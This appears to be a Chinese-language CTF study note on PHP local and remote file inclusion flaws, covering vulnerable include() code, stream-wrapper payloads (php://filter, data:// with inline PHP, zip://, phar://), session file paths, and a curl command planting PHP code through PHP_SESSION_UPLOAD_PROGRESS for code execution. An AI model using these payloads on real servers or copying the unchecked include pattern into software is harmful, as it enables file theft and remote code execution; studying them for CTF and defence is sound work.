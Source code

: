 # PHP文件包含

把可重复使用的函数写入到单个文件中，在使用该函数时，直接调用此文件，无需再次编写函数。这一过程被称为包含。

`include()`
`include_once()`
`require()`
`require_once()`

在通过 PHP 函数引入文件时，如果传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

文件包含漏洞分为两个类型，分别本地文件包含（Local File Inclusion，LFI）和远程文件包含（Remote File Inclusion，RFI）

> 文件包含的文件无须是`php`后缀，只要文件内容符合PHP语法规范，任何扩展名都可以执行

```php
<?php
$file = $_GET['file'];
include($file);
```

## PHP 封装伪协议

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数，[了解更多](https://www.php.net/manual/zh/wrappers.php)

`file`

### php://filter

```
php://filter/read=convert.base64-enccode/resource=
```

### data://

```url
?file=data://text/plain,<?php phpinfo();?>
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
//data:text/plain
```

### input://

### phar://

### zip://

```
?file=zip://./foo.zip#bar.txt
?file=phar://my.phar/somefile.php
```

> `phar://`读取phar文件时，会反序列化meta-data储存的信息

### convert.iconv:// and dechunk://

## 文件包含漏洞利用

- 包含上传的含有PHP代码的任意类型文件，比如图片木马
- 包含session文件

> 默认存放路径`/var/`
> phpinfo信息中，php.ini，PHP代码
session.save_path

- 包含服务器日志
- 读取服务器敏感文件

## 泄露文件内容

#### PHP FILTER CHAINS: FILE READ FROM ERROR-BASED ORACLE

<https://github.com/synacktiv/php_filter_chains_oracle_exploit/>

## LFI2RCE

### PHP 过滤器实现任意内容生成

### session 文件包含

```
/tmp/sess_<id>
/tmp/sessions/sess_<id>
/var/lib/php/sess_<id>
/var/lib/php/sessions/sess_<id>
/var/lib/php<version>/sess_<id>
/var/lib/php<version>/sessions/sess_<id>
...
```

### `PHP_SESSION_UPLOAD_PROGRESS`

PHP_SESSION_UPLOAD_PROGRESS 是 PHP 中用于处理文件上传进度的特性，主要用于监控用户上传文件时的进度信息。

`session.upload_progress.enabled`默认启用。
`session.upload_progress.cleanup`默认启用，上传完成后会立即清除进度信息。

```html
<form action="http://localhost:13454/upload.php" method="post" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" value="上传文件" />
</form>
```

<https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2018/one-line-php-challenge/exp_for_php.py>

```bash
curl http://<IP>:<PORT> --cookie 'PHPSESSID=test' -F 'PHP_SESSION_UPLOAD_PROGRESS=<PHP_CODE>' -F 'file=@junk_file'
```

```
upload_progress_<PHP_CODE>|a:5:{s:10:”start_time”;i:1623754711;s:14:”content_length”;i:342;s:15:”bytes_processed”;i:342;s:4:”done”;b:1;s:5:”files”;a:1:{i:0;a:7:{s:10:”field_name”;s:4:”file”;s:4:”name”;s:9:”junk_file”;s:8:”tmp_name”;s:14:”/tmp/phpAelEHl”;s:5:”error”;i:0;s:4:”done”;b:1;s:10:”start_time”;i:1623754711;s:15:”bytes_processed”;i:17;}}}
```

`exp.py`:

```python
```

- [第五空间 2021]EasyCleanup
- QAQ_1inclu4e

<https://d4rkstat1c.medium.com/mr-burns-hackthebox-writeup-c06f90a22fa9>

## 练习题

- ACTF2020新生赛 Include
- [羊城杯 2020]Easyphp2

## 参考资料

- <https://github.com/D35m0nd142/LFISuite>
